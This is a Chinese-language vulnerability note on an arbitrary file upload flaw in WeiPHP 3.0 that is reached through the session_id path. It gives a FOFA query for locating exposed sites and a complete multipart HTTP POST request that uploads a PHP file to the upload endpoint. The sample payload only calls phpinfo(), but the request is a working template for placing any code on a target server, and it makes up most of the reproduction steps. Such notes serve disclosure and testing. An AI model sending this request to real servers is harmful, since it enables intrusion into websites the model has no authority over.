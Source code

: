 # WeiPHP3.0 session_id 任意文件上传漏洞

## 漏洞描述

WeiPHP3.0 session_id 存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

<a-checkbox checked>WeiPHP3.0</a-checkbox></br>

## FOFA

<a-checkbox checked>app="weiphp"</a-checkbox></br>

## 漏洞复现

登陆页面标识

![img](../../../.vuepress/public/img/1628213492648-3347796e-a88d-4455-909a-f5d8f4ac047f.png)

发送请求包上传文件

```php
POST /index.php?s=%2FHome%2FFile%2Fupload%2Fsession_id%2Fscevs8hub3m5ogla05a421hb42.html HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 831
Content-Type: multipart/form-data; boundary=------------------------e37a54d7d5380c9f
Accept-Encoding: gzip

--------------------------e37a54d7d5380c9f
Content-Disposition: form-data; name="download"; filename="882176.php"
Content-Type: application/octet-stream

<?php
phpinfo();

--------------------------e37a54d7d5380c9f--
```

![img](../../../.vuepress/public/img/1628213649320-464f9e3a-8b64-46b2-b4f8-4afc74fdb3e3.png)

获取目录后访问回显的 path

![img](../../../.vuepress/public/img/1628213733752-1746e894-4003-47eb-b50b-6d374133443c.png)



